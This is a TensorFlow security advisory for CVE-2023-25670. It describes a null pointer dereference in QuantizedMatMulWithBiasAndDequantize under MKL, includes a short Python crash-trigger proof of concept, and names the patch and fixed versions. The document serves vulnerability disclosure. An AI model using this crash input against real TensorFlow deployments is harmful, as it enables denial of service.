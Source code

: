 ## TFSA-2023-017: NPE in QuantizedMatMulWithBiasAndDequantize

### CVE Number
CVE-2023-25670

### Impact
NPE in QuantizedMatMulWithBiasAndDequantize with MKL enable 
```python
import tensorflow as tf

func = tf.raw_ops.QuantizedMatMulWithBiasAndDequantize
para={'a': tf.constant(138, dtype=tf.quint8), 'b': tf.constant(4, dtype=tf.qint8), 'bias': [[31.81644630432129, 47.21876525878906], [109.95201110839844, 152.07968139648438]], 'min_a': 141.5337138686371, 'max_a': [73.84139251708984, 173.15280151367188], 'min_b': [], 'max_b': [[16.128345489501953, 193.26820373535156]], 'min_freezed_output': [], 'max_freezed_output': [115.50032806396484, 156.974853515625], 'Toutput': 1.0, 'transpose_a': True, 'transpose_b': False, 'input_quant_mode': 'MIN_FIRST'}

func(**para)
```

### Patches
We have patched the issue in GitHub commit [8a47a39d9697969206d23a523c977238717e8727](https://github.com/tensorflow/tensorflow/commit/8a47a39d9697969206d23a523c977238717e8727).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx
